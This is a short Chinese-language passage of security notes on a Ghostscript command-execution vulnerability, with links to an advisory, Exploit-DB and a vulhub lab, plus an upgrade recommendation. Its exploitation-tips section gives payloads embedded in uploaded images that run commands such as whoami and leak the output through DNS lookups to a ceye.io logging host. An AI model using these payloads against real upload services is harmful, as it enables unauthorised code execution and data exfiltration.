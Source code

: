 ghostscript 命令执行漏洞预警 – 安全客, 安全资讯平台  
https://www.anquanke.com/post/id/157513

**6.** **漏洞利用**

Exploit Database Search  
https://www.exploit-db.com/search?q=Ghostscript

vulhub/ghostscript/CVE-2019-6116 at master · vulhub/vulhub  
https://github.com/vulhub/vulhub/tree/master/ghostscript/CVE-2019-6116

**7.** **利用技巧**

1. 如果发现网站可以上传图片, 且图片没有经过裁剪, 最后返回缩略图, 这里就可能存在 Ghostscript 上传图片代码执行 dnslog 可以用 ``ping `uname`.admin.ceye.io`` 或 ``ping `whoami`.admin.ceye.io``保存成图片, 以后用起来方便, 有个版本的 centos 和 ubuntu poc 还不一样, 可以这样构造``ping `whoami`.centos.admin.ceye.io`` / ``ping `whoami`.ubuntu.admin.ceye.io``分别命名为 `centos_ps.jpg`/`ubuntu_ps.jpg`, 这样测试的时候直接传 2 个文件, 通过 DNSLOG 可以区分是哪个 poc 执行的

**8.** **防护方法**

1. 升级到最新版

**如对你有用，记得转发分享，点个在看哦**